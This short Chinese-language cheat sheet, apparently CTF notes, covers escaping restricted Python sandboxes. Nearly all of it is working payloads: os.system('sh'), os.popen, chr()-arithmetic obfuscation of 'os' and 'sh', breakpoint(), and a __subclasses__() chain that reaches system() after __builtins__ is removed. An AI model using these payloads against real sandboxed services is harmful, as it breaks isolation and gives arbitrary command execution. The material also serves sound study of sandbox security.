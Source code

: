 
注意：python 3.7 以上支持[斜体字母](https://lingojam.com/ItalicTextGenerator)作为关键字

```python
import os
print(os.getcwd()) # 工作目录
print(os.environ)  # 环境变量
__import__('os').environ # 另一种方法
__import__('os').system('sh')

output = os.popen('ls').read() # 执行命令并获取输出
print(output)

chr(int(99+9+9/9+9/9+9/9)) # o
chr(int(99+9+9-9/9-9/9))   # s
chr(int(99+9-9/9-9/9-9/9-9/9)) # h
__import__(chr(int(99+9+9/9+9/9+9/9))+chr(int(99+9+9-9/9-9/9))).system(chr(int(99+9+9-9/9-9/9))+chr(int(99+9-9/9-9/9-9/9-9/9))) # __import__('os').system('sh')
```

chr 数字转字符，ord 字符转数字。

拿到 shell 的多种方法

```python
breakpoint()  # 进入 pdb，然后为所欲为
().__class__.__base__.__subclasses__()[-73].__init__.__globals__['system']('sh') # 在 __builtins__ 被橄榄之后，通过用 -1 ~ -150 替换“-73”来拿到 shell
```